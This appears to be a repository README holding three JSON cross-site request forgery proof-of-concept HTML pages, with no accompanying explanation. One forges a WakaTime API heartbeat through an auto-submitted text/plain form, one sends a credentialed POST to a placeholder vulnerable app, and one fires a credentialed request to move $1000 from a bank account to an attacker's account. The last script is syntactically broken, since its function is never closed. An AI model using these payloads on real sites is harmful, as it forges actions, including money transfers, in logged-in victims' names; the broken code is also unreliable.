 # jdbc-servlet
javaweb
<html>
<head>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
<script>
$( document ).ready(function() {
    $("#z").attr("name",'{"entity":"https://zzz.com","type":"domain","time":"'+($.now()/1000)+'","project":"<<LAST_PROJECT>>","is_debugging":false,"plugin":"chrome-wakatime/1.0.2","fakeparam":"');
    $("#f").submit();
});
</script>
</head>
<body>
<form id="f" ENCTYPE="text/plain" action="https://api.wakatime.com/api/v1/users/current/heartbeats" method="post">
<input id="z" type="hidden" name='test' value='test"}'> 
<input type="submit" value="send">
</form>
</body>
</html>

<html>
<title>JSON CSRF POC</title>
<body>
<center>
<h1> JSON CSRF POC </h1>
<script>
fetch('http://vul-app.com', {method: 'POST', credentials: 'include', headers: {'Content-Type': 'text/plain'}, body: '{"name":"attacker","email":"attacker.com"}'});
</script>
<form action="#">
<input type="button" value="Submit" />
</form>
</center>
</body>
</html>

<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/members.bankofdirectdefense.com\/accounts\/transfer", true);
        xhr.setRequestHeader("Content-Type", "application\/json");
        xhr.withCredentials = true;
        xhr.send("{\"from-account\": 1,\"toAccount\": \"021000021-9876543210\",\"amount\": 1000,\"currency\": \"USD\"}");
      submitRequest();
    </script>
  </body>
</html>
